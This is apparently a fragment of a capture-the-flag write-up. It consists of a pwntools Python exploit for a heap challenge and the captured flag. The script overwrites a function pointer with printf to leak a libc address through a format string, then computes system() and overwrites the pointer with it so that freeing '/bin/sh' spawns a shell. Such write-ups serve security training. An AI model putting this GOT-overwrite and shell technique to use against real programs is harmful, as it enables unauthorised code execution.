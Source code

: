 ```python=
free(1)
'''

alloc(0, 0x38, p64(elf.plt["printf"]))
free("%21$llx")

// r ??? 忘了當初打啥
libc_start_main_ret = int(r(12), 16)
libc_base = libc_start_main_ret - libc.symbols["__libc_start_main"] - 0xeb
system_addr = libc_base + libc.symbols["system"]
success("system address: " + hex(system_addr))


io.sendlineafter("Your choice: ", "1")
io.sendlineafter("Index:", "A\x00")
io.sendafter("Size:", "A"*15+"\x00")
io.sendafter("Data:", p64(system_addr))
free("/bin/sh\x00")

io.interactive()

```


>FLAG{r3all0c_the_memory_r3all0c_the_sh3ll}